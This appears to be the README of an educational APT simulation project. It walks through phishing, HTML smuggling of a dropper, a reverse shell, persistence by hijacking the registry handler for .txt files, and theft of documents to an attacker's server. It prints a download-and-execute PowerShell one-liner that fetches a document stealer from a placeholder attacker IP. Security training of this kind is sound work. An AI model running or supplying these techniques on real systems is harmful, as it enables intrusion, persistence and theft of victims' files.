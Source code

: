 # APT Simulation - Advanced Persistent Threat Attack

This project simulates an **Advanced Persistent Threat (APT)** attack, covering multiple stages from initial phishing to data exfiltration. The simulation is designed for educational and cybersecurity awareness purposes in a **controlled environment** such as VirtualBox.

## **Stages of the Attack**

### **1. Phishing (Initial Access)**

- A malicious **job application document (.docx)** is sent to the target.
- The document contains a **link to an HTML Smuggling page** that automatically downloads the initial dropper (**dropper.exe**).

### **2. HTML Smuggling (Dropper Execution)**

- When the target opens the link, **dropper.exe** is downloaded without triggering security warnings.
- If the user executes **dropper.exe**, it downloads additional payloads from the attacker's server.

### **3. Payload Deployment (Execution & Persistence)**

- The dropper downloads **shellcode (reverse shell)** and persist.ps1 file from the attacker's server.
- The dropper.exe manipulates the **registry value** at `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command` to execute `persist.ps1`.
- When the user opens any **.txt file**, the manipulated registry value triggers `persist.ps1`, which establishes a **reverse shell** connection to the attacker's server.

### **4. Data Exfiltration (Document Theft)**

- A **PowerShell document stealer** (`docs-stealer.ps1`) searches for sensitive files such as **.txt, .pdf, .xlsx, .csv**, and other document types.
- Once the attacker gains a **reverse shell** on the target system, they execute the following command to download and run the document stealer:

  ```powershell
  powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://<attacker_ip>/docs-stealer.ps1')"
  ```

- The script scans for potential sensitive documents and uploads them to a **remote PHP web server** controlled by the attacker.

## **Components**

- **Dropper (C)**: Downloads & executes payloads.
- **Reverse Shell (C & Windows API)**: Establishes attacker connection.
- **PowerShell Scripts**: Handles persistence & document exfiltration.
- **PHP Web Server**: Receives stolen files.
- **HTML Smuggling (HTML & JavaScript)**: dropper delivery.
- **Phishing Document (DOCX)**: Social engineering bait.

### **Disclaimer**

This repository contains code related to **malware simulation and penetration testing**. It is intended for **educational and research purposes only** in a **controlled and legal environment** such as virtual machines or isolated test networks. **The author does not condone or take responsibility for any illegal or unethical activities performed using this code.** Use at your own risk and ensure compliance with applicable laws and regulations.
